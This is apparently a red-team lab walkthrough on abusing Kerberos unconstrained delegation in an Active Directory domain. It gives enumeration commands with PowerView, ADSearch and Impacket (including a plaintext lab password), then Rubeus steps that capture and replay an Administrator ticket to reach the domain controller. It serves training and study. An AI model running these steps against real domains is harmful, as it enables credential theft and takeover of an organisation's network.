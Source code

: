 
# Scenario

> The lab always requires some domain user credential material or Administrative priviledges on a particular machine. For a particular vulnerability we simply consider the assumptions for individual attacks.

---

# Kerberos Unconstrained Delegation(KUD) - Computer 

Assumption, we have compromised `domuser@red.local` who is a local administrator on the `WEBSRV` machine and the `WEBSRV` machine is `TrustedForDelegation`. 

## Enumeration

1. ADModule

```powershell
Import-Module .\Microsoft.ActiveDirectory.Management.dll

Get-ADComputer -Filter {TrustedForDelegation -eq $true -and primarygroupid -eq 515} -Properties trustedfordelegation,serviceprincipalname,description
```
![](/docs/assets/images/KUD-1.png)

2. ADSearch

```bash
ADSearch.exe --search "(&(objectCategory=computer)(userAccountControl:1.2.840.113556.1.4.803:=524288))" --attributes samaccountname,dnshostname
```
![](/docs/assets/images/KUD-2.png)

3. PowerView

```powershell
. .\PowerView.ps1

Get-NetComputer -Unconstrained | select dnshostname,samaccountname
```
![](/docs/assets/images/KUD-3.png)

4. Impacket

```bash
findDelegation.py red.local/domuser:'P@ssw0rd1!' -target-domain red.local
```
![](/docs/assets/images/KUD-4.png)

## Exploitation

1. Try listing the C$ on the DC to confirm we don't have administrator privileges on the DC

```bash
dir \\dc01\c$
```
![](/docs/assets/images/KUD-5.png)

2. Run `Rubeus.exe` to view the tickets.

```bash
.\Rubeus.exe triage

klist
```
![](/docs/assets/images/KUD-6.png)
![](/docs/assets/images/KUD-7.png)


3. On websrv run the following to capture TGTs and observe the response in Rubeus

```bash
.\Rubeus.exe monitor /monitorinterval:10 /filteruser:Administrator /nowrap
```

4. Logon to the DC and list the C$ on webserver.

```bash
whoami

hostname

dir \\websrv.red.local\c$
```

![](/docs/assets/images/KUD-8.png)

![](/docs/assets/images/KUD-9.png)


5. Use Rubues.exe ptt module

```bash
.\Rubeus.exe ptt /ticket:<base64-ticket>
klist
```

![](/docs/assets/images/KUD-10.png)

![](/docs/assets/images/KUD-11.png)


6. Try listing the C$ on the DC now to confirm that we have Administrator Credential material.

```
dir \\dc01\c$
```

![](/docs/assets/images/KUD-12.png)

----

